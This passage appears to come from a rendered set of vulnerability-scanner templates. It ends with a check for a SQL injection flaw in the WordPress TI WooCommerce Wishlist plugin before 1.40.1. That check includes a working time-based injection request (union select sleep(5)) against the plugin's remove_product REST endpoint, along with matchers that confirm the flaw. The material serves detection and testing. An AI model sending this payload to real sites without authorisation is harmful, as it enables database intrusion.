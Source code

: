 ### Matchers

**Type - word**

- part - body
- words
  1. \<title>Doctor | Dashboard\</title>
  2. View Appointment History
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress TI WooCommerce Wishlist \<1.40.1 - SQL Injection

## Description

- WordPress TI WooCommerce Wishlist plugin before 1.40.1 contains a SQL injection vulnerability. The plugin does not sanitize and escape the item_id parameter before using it in a SQL statement via the wishlist/remove_product REST endpoint.

- severity - critical
- tags - sqli,ti-woocommerce-wishlist,wpscan,cve,cve2022,woocommerce,wordpress,wp-plugin,wp

## Requests

### Step - 1

```
@timeout: 10s
GET /?rest_route=/wc/v3/wishlist/remove_product/1&item_id=0%20union%20select%20sleep(5)%20--%20g HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=5

**Type - word**

- part - body
- words
  1. Product not found
